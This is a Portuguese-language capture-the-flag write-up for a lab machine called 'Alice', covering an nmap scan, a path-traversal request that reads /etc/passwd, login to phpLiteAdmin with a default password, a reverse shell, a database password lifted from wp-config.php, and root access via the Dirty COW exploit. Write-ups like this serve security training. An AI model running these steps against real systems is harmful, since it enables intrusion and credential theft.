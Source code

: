 CyberCup - Alice

# CyberCup - Alice

## Enumeração

- Executado Nmap

  ```
  # Nmap 7.80 scan initiated Sun Jun 28 00:32:09 2020 as: nmap -sC -sV -Pn -oA quick 10.2.0.131
  Nmap scan report for 10.2.0.131
  Host is up (0.0022s latency).
  Not shown: 997 closed ports
  PORT    STATE SERVICE VERSION
  22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
  |   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
  |_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
  80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
  |_http-server-header: Apache/2.2.22 (Ubuntu)
  |_http-title: Alice's Shop
  111/tcp open  rpcbind 2-4 (RPC #100000)
  | rpcinfo: 
  |   program version    port/proto  service
  |   100000  2,3,4        111/tcp   rpcbind
  |   100000  2,3,4        111/udp   rpcbind
  |   100000  3,4          111/tcp6  rpcbind
  |   100000  3,4          111/udp6  rpcbind
  |   100024  1          45939/tcp   status
  |   100024  1          51196/tcp6  status
  |   100024  1          51294/udp   status
  |_  100024  1          53359/udp6  status
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Sun Jun 28 00:32:23 2020 -- 1 IP address (1 host up) scanned in 13.82 seconds
  
  ```

  ### 80/TCP

- Ao acessar a porta 80/TCP identificado que existe um website apache em execução. DUrante navegação notado que as urls poderiam ser vulneraveis à LFI, o que foi comprovado na requisição abaixo

  ```
  GET /view.php?page=../../etc/passwd HTTP/1.1
  Host: 10.2.0.131
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  DNT: 1
  Connection: close
  Upgrade-Insecure-Requests: 1
  Pragma: no-cache
  Cache-Control: no-cache
  
  ```

- Ao tentar importar logs do apache como /var/log/apache2/access.log, dentre outros e obtido insucesso, verificado que nao seria possivel utilizar do LFI para obter RCE diretamente via log poisioning. 

- Ao dar continuidade, executado gobuster enumerando outros possíveis diretorios no servidor, o que encontrou a pasta dbadmin que executava a aplicação phpLiteAdmin v1.9.3, que permitiu acesso com a senha padrão **admin**, encontrada por dedução

  ```
  ----------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                     |  Path
  ----------------------------------------------------------------------------------- ---------------------------------
  phpLiteAdmin - 'table' SQL Injection                                               | php/webapps/38228.txt
  phpLiteAdmin 1.1 - Multiple Vulnerabilities                                        | php/webapps/37515.txt
  PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                     | php/webapps/24044.txt
  phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                      | php/webapps/39714.txt
  ----------------------------------------------------------------------------------- --------------------------------
  
  ```

- No phpLiteAdmin, executado procedimentos descritos em https://v3ded.github.io/ctf/zico2.html onde através de um valor padrão era obtido um shell reverso a partir de um payload publicado via http server local

- Através do shell reverso, obtido flag user.txt como o usuário **alice** na pasta /home/zico

```
www-data@shop:/home/zico$ cat user.txt 
j39d8ajeoc0paz63lmndr0wusa823nu7
www-data@shop:/home/zico$ 

```

- Executado comando para enumerar arquivos com permissão de leitura no diretorio /home. Notado que haviam arquivos de configuração do wordpress e joomla.


```

www-data@shop:/tmp$ find /home -type f -readable 2>/dev/null                                                         
/home/zico/bootstrap.zip                                                                                             
/home/zico/startbootstrap-business-casual-gh-pages/img/slide-1.jpg                                                   
/home/zico/startbootstrap-business-casual-gh-pages/img/slide-2.jpg                                                   
/home/zico/startbootstrap-business-casual-gh-pages/img/bg.jpg                                                        
/home/zico/startbootstrap-business-casual-gh-pages/img/intro-pic.jpg 
```

- Encontrado no arquivo de configuração **/home/zico/wordpress/wp-config.php** as credenciais de banco de dados do usuário **alice**, que eram tambem utilizadas para login com a conta no linux

  ```
  alice:fiap3raaz
  ```

- Ao enumerar, notado que maquina é vulnervel ao dirtycow. Executado exploit **40839** do exploitdb e logado como firefart, obtendo flag root.txt


```
firefart@shop:~# cat /root/root.txt                                                                                  │zurc@kali:/dcruz/fiap/cybercup/alice/exploit$ 
983jlie39ksc0aslemn3378ad0u                                                                                        
firefart@shop:~#           
```

